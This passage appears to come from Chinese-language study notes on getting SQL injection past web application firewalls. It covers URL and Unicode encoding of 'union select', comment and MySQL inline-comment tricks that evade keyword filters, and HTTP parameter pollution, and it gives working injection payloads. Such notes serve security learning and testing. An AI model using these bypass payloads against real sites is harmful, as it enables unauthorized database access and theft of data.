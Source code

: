 ##### c. 编码绕过

> 利用浏览器上的**进制转换或者语言编码规则**来绕过waf
>
> unicode、HEX、URL、ascii、base64等URL编码

###### ①URL编码

> 浏览器会对地址栏中，**非保留字**的字符进行URL编码

```sql
#如果waf拦截了union select   (可以尝试多次编码绕过)
	1' union select 1,2,3 --+
=> 	1' %75%6E%69%6F%6E %73%65%6C%65%63%74 1,2,3 --+
```

###### ②Unicode编码

```sql
//如果waf拦截了union select
	1' union select 1,2,3		'#替换了i,也可以全部替换
=>	1' un%u0069on sel%u0065ct 1,2,3
```

###### ③16进制

##### d. 注释绕过

* ``//``   `` -- ``  ``/* * /``  ``#``  ``--+``  ``-- -``  ``;``  ``--a``  ``/*! */``

  > 利用**语言函数特性**来绕过waf的规则

###### ①普通注释

> 使用/* * /在构造的**查询语句中插入注释**，规避对**空格的依赖**或**关键字**识别

```sql
	1' union select 1,2,3
=> 	1' /**/union/**/select 1,2,3
=>	1' /**/union/**/select 1,2,database/*%!a*/()		'# 使用/*%特殊符号*/的形式绕过对/**/的正则过滤
```

###### ②**内联注释**

> **/*! */**只有mysql能识别

```python
1. /*! code*/	内联注释可以用于整个SQL语句中
2. 过滤了union、where、table_name、table_schema、=、and、information_schema等词，可以使用
	=> /*!%23/*%0a关键词*/ 来绕过
	=> /*!99999*/
```

##### e. 参数污染

* HPP(HTTP Parameter Polution)又称作**重复参数污染**，当同一参数出现多次，不同中间件会解析为不同的结果

* 如果WAF**只检测同名参数的第一个或最后一个**，并且**中间件特性**正好取与**WAF相反的参数**，则可成功绕过

  ![参数污染](http://113.45.142.235:9001/laffrex/pictures/参数污染.png)
